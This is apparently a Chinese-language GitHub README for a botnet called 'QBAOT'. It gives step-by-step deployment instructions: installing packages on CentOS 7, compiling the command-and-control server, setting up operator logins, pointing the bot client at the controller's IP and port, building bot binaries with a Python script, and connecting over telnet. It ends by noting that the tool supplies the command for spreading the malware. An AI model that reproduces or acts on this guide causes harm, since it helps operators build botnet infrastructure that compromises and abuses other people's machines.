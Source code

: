 # 非常哈基米的僵尸网络(QBAOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
centos的源一般都已经失效了，除非你真的不怕死，你可以用阿里云或者腾讯云，来运行次僵尸网络
备用centos7源安装方式:
curl -o /etc/yum.repos.d/CentOS-Base.repo

http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听船端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译船
```python
#忘了这个哈哈

python boat_install.py client.c 你的公网IP
```
## 连接cnc端
```
目前Windows自带的telnet连接不怎么行，跟坨臭屎一样
所以你需要一个Linux系统，乌班图或者centos
有些不自带telnet，自己去搜安装方式
安装完之后
telnet 你的服务器的公网ip 你设置的连接端口
```
## 教程结束，完结撒花
`完事就是这么简单`  
`传马命令他会给出的`  
`后面船自己弄`  
